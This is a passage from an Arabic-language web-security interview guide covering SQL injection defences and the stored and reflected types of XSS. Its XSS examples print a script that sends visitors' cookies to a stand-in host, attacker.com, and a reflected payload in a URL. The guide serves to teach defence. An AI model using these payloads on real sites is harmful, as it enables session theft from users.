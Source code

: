**5. Escaping Special Characters:**
```java
// في حالات نادرة حيث لا يمكن استخدام Prepared Statements
String safeName = StringEscapeUtils.escapeSql(userInput);
```

**6. Least Privilege:**
```sql
-- منح صلاحيات محدودة لحساب قاعدة البيانات
GRANT SELECT, INSERT, UPDATE ON database.users TO 'appuser'@'localhost';
-- لا تمنح DROP, DELETE إلا إذا كان ضرورياً
```

**7. Error Handling:**
```java
// ✗ لا تكشف تفاصيل SQL
try {
    // database operation
} catch (SQLException e) {
    log.error("Database error", e);
    throw new ApplicationException("An error occurred"); // رسالة عامة
}
```

---

### س19: ما هو XSS (Cross-Site Scripting)؟ وما أنواعه؟

**الإجابة:**
XSS هو ثغرة تسمح للمهاجم بحقن سكريبتات ضارة (عادة JavaScript) في صفحات ويب يراها مستخدمون آخرون.

**أنواع XSS:**

**1. Stored XSS (Persistent):**
```
- السكريبت الضار يُخزن في قاعدة البيانات
- يُنفذ في كل مرة يتم عرض الصفحة
- الأخطر

مثال:
1. المهاجم ينشر تعليقاً:
   <script>
     document.location='http://attacker.com/steal?cookie='+document.cookie
   </script>

2. التعليق يُخزن في قاعدة البيانات

3. كل من يشاهد الصفحة، يُسرق الكوكيز الخاص به
```

**2. Reflected XSS (Non-Persistent):**
```
- السكريبت الضار في الطلب (URL, Form)
- يُعكس في الاستجابة
- يحتاج خداع الضحية للنقر على رابط

مثال:
1. المهاجم يرسل رابطاً:
   http://example.com/search?q=<script>alert(document.cookie)</script>

2. الموقع يعرض:
   Search results for: <script>alert(document.cookie)</script>

3. السكريبت يُنفذ في متصفح الضحية
```
